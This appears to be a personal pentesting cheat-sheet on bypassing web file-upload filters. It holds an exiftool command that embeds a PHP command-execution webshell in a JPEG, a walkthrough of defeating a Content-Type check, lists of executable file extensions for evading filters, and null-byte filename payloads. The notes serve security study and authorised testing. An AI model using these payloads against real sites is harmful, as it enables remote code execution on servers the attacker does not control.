 ## Basics

- replace .php by php3


## Have to work on

https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf

https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/

https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass

http://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/

https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487

https://www.owasp.org/index.php/Unrestricted_File_Upload

## Inject malicious php into a picture

- https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html

---

- another one : https://sushant747.gitbooks.io/total-oscp-guide/bypass_image_upload.html

- ```exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' pic.jpg```
- ```mv pic.jpg pic.php.jpg```

## Example : Bypass security filter to upload php instead of other stuff

- If I submit a simple php webshell instead of a picture, it returns “Invalid file”. There is some filtering going on that I’ll need to bypass.

- I’ll find the allowed upload of a PNG in Burp and send it to Repeater. There are three common ways that a website will check for valid file types by comparing them to an allow- or deny-list:

1. File extension
2. Content-Type header
3. Magic bytes

- I’ll start by changing one at a time to see if the site blocks. First, I’ll change the extension to .php. It works.

- If I change the Content-Type header to application/x-php, it blocks it (even with the file name changed back to .png).

- Changing the content doesn’t seem to matter.

- Based on the filter testing, it seems like I can name a file .php and include PHP code, as long as I change the Content-Type header to a valid image.

## Bypass by changing extension :

- ASP:

.aspx
.config
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.soap
.vbhtm
.vbhtml
.asa
.asp
.cer
.shtml

- PHP:

.php
.php5
.php3
.php2
.shtml
.html
.php.png
(double extension attack)
What we would typically want to achieve is to circumvent the controls restricting the type of content that can be uploaded onto the website and try to upload something interesting like:

ASP / PHP file with a webshell – RCE
HTML file with Javascript code – XSS
EICAR file – test possibility of hosting malware
Protip: Don’t forget to always try the NULL byte injection trick as well, e.g.:

file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg

https://twitter.com/pwntheweb/status/1288112909520781316
